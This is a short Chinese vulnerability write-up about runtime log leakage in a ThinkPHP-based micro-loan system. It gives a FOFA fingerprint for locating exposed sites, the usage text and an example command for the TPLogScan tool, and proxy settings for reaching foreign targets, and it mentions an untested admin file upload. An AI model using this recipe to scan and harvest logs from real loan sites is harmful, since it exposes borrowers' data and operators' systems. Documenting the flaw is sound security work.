

## 小额贷款系统-runtime日志文件泄露

## 漏洞描述

小额贷款系统使用了Thinkphp，存在runtime日志泄露，后台还有个文件上传

## 漏洞影响

> 小额贷款系统

## FOFA

> "/Public/Manage/js/cvphp.js"

## 漏洞复现

进入系统界面如图


利用工具:https://github.com/r3change/TPLogScan

```python
optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     target url
  -v {3,5}, --version {3,5}
                        thinkphp version, default 3
  -p PATH, --path PATH  log path
  -y YEAR, --year YEAR  datetime start year, default this year
  -m MONTH, --month MONTH
                        datetime start month, default this month
  -d DAY, --day DAY     datetime start day, default 1

示例：python3 TPLogScan.py -u URL -v 3
```



扫到的日志在TPLogData目录下

tips：因为fofa搜到的很多站都在国外，需要在python脚本中设置代理

```python
import os
os.environ["http_proxy"] = "http://127.0.0.1:xxx"
os.environ["https_proxy"] = "http://127.0.0.1:xxx"
```
####后台文件上传自己测吧
